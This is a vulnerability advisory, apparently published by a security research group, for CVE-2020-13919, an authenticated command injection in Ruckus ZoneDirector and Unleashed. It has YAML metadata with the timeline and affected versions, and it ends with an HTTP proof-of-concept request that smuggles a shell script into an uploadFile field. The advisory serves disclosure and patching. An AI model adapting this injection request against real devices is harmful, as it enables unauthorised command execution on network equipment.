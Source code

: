 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2020-02-05'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2020-06-15'
      url: 'https://support.ruckuswireless.com/security_bulletins/304'
    - type: 'cve-assign'
      date: '2020-06-07'
    - type: 'release'
      date: '2020-08-05'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'high'
alephid: ALEPH-2020006
cve: CVE-2020-13919
date: '2020-06-07'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - txt'
      url: 'https://www.ruckuswireless.com/security/304/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - PDF'
      url: 'https://www.ruckuswireless.com/security/304/view/pdf'
  
title: 'Authenticated command injection in emfd/libemf'
---
```

emfd/libemf in Ruckus Wireless Unleashed through 200.7.10.102.92 allows a remote attacker to achieve command injection via a crafted HTTP request.

Information about the exploitation of this vulnerability can alos be found in our  [DEFCON 28](https://www.youtube.com/watch?v=Yt3mJlnODHU) talk.


## Proof Of Concept ##
``` http
POST /admin/_cmdstat.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
X-CSRF-Token: 1VvEMc1nbx
Cookie: -ejs-session-=x0ea15a04dc0b243874d37739741e4946
Content-Length: 205

<ajax-request action='docmd' xcmd='get-platform-depends' updater='system.1568118269965.3208' comp='system'>
<xcmd cmd='import-avpport' uploadFile='#!/bin/sh\nsleep\t10' type='wlan-maxnums'/>
</ajax-request>
```